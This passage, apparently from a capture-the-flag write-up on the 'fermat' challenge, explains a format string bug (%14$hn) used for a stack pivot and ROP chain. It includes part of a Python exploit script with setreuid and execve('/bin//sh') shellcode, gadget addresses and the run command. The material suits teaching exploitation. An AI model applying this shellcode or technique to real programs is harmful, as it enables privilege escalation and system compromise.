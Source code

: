 How? We have 7 characters.

The following input: `%14$hn` writes 0 in the two bytes starting at the address pointed by the 14th word after the format string.

In practice:
- Looking back at the image, the 14th word after the format string is at address `0xffffd588`;
- This address points to `0xffffd5a8`;
- So, our format string will write 0x0 into `0xffffd5a8` and `0xffffd5a9`
- Previously, `0xffffd5a8` contained value `0xffffd5c8`;
- After `printf()`, it will contain value `0xffff0000`.

Now, remember the `welcome()` function? Thanks to that function, we can write a huge payload into memory, and buffer will grow (in stack, so towards lower addresses), so that we can make the area now written in Saved BP (`0xffff0000`) pointing to our payload.

Now I needed to find a way to write that value into `ESP` and trigger the ROPChain.

The trick to trigger stack pivoting is using the two `leave` instruction in `dispatch` and `main`:
- The first `leave` moves `ESP` to current `EBP`, then copies our overwritten SBP into `EBP`;
- The second `leave` moves `ESP` to current `EBP` - **which we injected in the previous frame** - then pops the SBP into EBP, but this doesn't matter since ESP points to our payload now :)

I slightly modified this approach because of these instructions in `main`:

![AltText](/media/images/icectffermat_4.JPG)

Following `leave`,
the value in memory pointed by `ecx - 4` is moved into `esp`. Luckily, we can control the content of `ecx`, since it is loaded in:
`mov ecx, DWORD PTR [ebp - 0x4]`, and `ebp` is already pointing to our fake stack.

The rest of the work has just been writing a ROPchain which didn't contain NULL bytes (that couldn't reside in `env`) -- but since the binary is statically linked, I have a whole load of ROP gadgets already linked to binary, found with `ropper` -- and carefully computing addresses inside and outside gdb. Here, the script to generate the payload, which I used in target machine with:

`USER=$(python exploit.py) ./fermat "%14\$hn"`

```
import struct

def p32(address):
  return struct.pack("I", address)

# To compute addresses to store args to mprotect
mprotect_base = 0xffff105c
# mprotect requires a page aligned boundary
stackpage_base = 0xffff1000
# setreuid(geteuid(), geteuid()) && execve("/bin//sh", NULL, NULL)
shellcode = "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
shellcode += "\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
shellcode += "\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"


movdpedx = 0x08055a2b # mov dword ptr [edx], eax; ret
xoreax = 0x08049743 # xor eax, eax; ret
inceax = 0x0807f1bf # inc eax; ret
popedx = 0x08073bda # pop edx; ret
```
